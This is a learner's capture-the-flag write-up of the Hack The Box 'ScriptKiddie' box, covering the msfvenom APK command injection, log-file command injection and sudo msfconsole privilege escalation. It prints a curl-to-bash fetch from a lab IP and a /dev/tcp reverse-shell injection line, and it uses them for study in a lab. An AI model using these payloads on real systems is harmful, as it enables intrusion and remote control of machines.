 ```yaml
---
title: "ScriptKiddie HTB"
date: 2021-08-28T17:30:30
categories:
  - study
tags:
- Linux
- Outdated Software
classes: wide
---
```

ScriptKiddie is an easy rated Linux box from May 2021. The HTB writeup PDF describes it as:

>*"ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384), 
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration. "*

[Link.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/scriptkiddie

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is open running ssh, specifically OpenSSH 8.2p1 on Ubuntu.
- Reveals a web server on 5000, with Werkzeug 0.16.1 running on Python 3.8.5. [Werkzeug](https://werkzeug.palletsprojects.com/en/2.0.x/) is *"a comprehensive WSGI web application library."* 

[WSGI](https://wsgi.readthedocs.io/en/latest/what.html) refers to:

>*"Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request."*

Accessing the site at http://10.10.10.226:5000/ we see 3 inputs for a basic "hackers toolbox".

There are numerous "tools" present on the page, including a Nmap, msfvenom and a SearchSploit tool. 

I assume that the Nmap and SearchSploit simply run the binaries and display results. The venom generator allows us to upload files to it, this 
could be a potential exploit point. But at this point I am lost, reading writeups it seems that the vulnerability is within msfvenom 
itself. This [Github page](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md) by the exploit author Justin Steven explains the vuln and references it as [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). They explain that:

>*"There is a command injection vulnerability in msfvenom when using a crafted APK file as an Android payload template.
Metasploit Framework provides the msfvenom tool for payload generation. For many of the payload types provided by msfvenom, it allows the user to provide a "template" using the -x option."*

It seems that using a "poisoned" or evil APK file as a template can result in command injection on the template user's system. More details:

>*"An attacker who could trick an msfvenom user into using a crafted APK file as a template could execute arbitrary commands on the user's system.
For example, an attacker could prepare and publish a crafted APK file that they believe is an enticing template. If a user of Metasploit Framework obtains that APK file and attempts to use it as an msfvenom template, arbitrary commands can be executed on that user's machine."*

For this it seems the following criteria can result in a command injection vuln.

If a crafted APK file has a signature with an "Owner" field containing:
- A single quote (to escape the single-quoted string)
- Followed by shell metacharacters




<h2>Foothold</h2>

We follow the instructions from the previously referenced Github page. Which involved downloading a python script to generate an "evil.apk" file, the script is described as: 

>*"The following Python script will produce a crafted APK file that executes a given command-line payload when used as a template."*

In this case we will be using it to execute a reverse shell on the box.
We start our Netcat listener, set the target as Android on the website as APK files are Android files. We then we upload and catch the shell.
Now we have a shell, we upgrade to a tty with `/usr/bin/script -qc /bin/bash /dev/null`. 

We find the user flag in `kid`'s home folder.

<h2>Lateral movement</h2>
I am way out of my depth here.

According to the writeups it seems that lateral movement to another user is required.
We see that there is a script called `scanlosers.sh` in a user called `pwn`'s home directory. Reading the script we see that it 
reads rows from the `/home/kid/logs/hackers` file to read IP addresses and run nmap on them: We find the other logs in `./html`,
a handy command is:

```bash
kid@scriptkiddie:~/html$ grep -R logs .
grep -R logs .
./app.py:        with open('/home/kid/logs/hackers', 'a') as f:
```
This searches files for the presence of logs.

We see that `app.py` writes to `/home/kid/logs/hackers.`

Reading app.py we see that it writes to the logs directory when non-alphanumeric characters are input into the website's SearchSploit field. The writer assumes that submitted non-alpha characters represent an attempt to *"hacK"* them. So the script notes ip addresses of users who submit them in a log and run Nmap on them. 

`scanlosers.sh` does not perform any input validation so we can perform "arbitrary OS command injection" by inputting our reverse shell in there. Ippsec does an excellent analysis of scanlosers.sh, after watching their video I now understand why our command would be executed.

```bash
#!/bin/bash
 
log=/home/kid/logs/hackers
 
cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done
 
if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

We can see that the script reads the log file, then field separates the log based upon a single character separator of a ' ' space. Every field from the third field onward is treated as an ip.

Once the script determines what an ip is, it is then nmap'd by the command in the `do` part of the script:

```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null"
```

Ippsec points out that if the log file contains a string that has whatever for the initial two fields and then a semicolon, it would essentially nullify the first part of the command which is `nmap --top-ports 10 -oN recon/`. 

Then a desired command can be placed in the third field, which is then ended with a hash(#) to comment out the rest of the command `.nmap ${ip} 2>&1 >/dev/null`. Their example is:

```
echo 'abc def ;curl 10.10.14.2:8000/rev.sh | bash #
```

This would result in the initial and end part of the original command being nullified by `;` and `#`. As the first part is not a command so does not execute, then our command is read, and then the end of the original command is commented out.
Our command would then be executed by `scanlosers.sh`, giving us a shell as `pwn` as `pwn` owns `scanlosers.sh`. 

Putting our reverse shell into `/home/kid/logs/hackers.` with `echo 'a b $(bash -c "bash -i &>/dev/tcp/YOURIP/YOURPORT 0>&1")' > /home/kid/logs/hackers` gives us the reverse shell as pwn.

<h2>Privilege Escalation</h2>

Now that we are `pwn`, running `sudo -l` we see:

```bash
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Since we can run msfconsole as sudo, we simply run it as sudo and then drop into the integrated ruby shell with command `irb`. 
Then run `system("/bin/bash")` which drops us into a root shell, and the root flag can be found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Enumerate the contents of the home directories more carefully, figure out what scripts are doing and what they may be writing to.
- Ippsec uses pspy alot, which seems to be a good process monitor. Run it, and then interact with the website to see what processes are called and when.
- Learn bash.
- Things sometimes write logs, in which case figure out where they are writing to and what else uses them.
- As for foothold, try to find a CVE on everything, don't be afraid to just try them. It isn't a race.

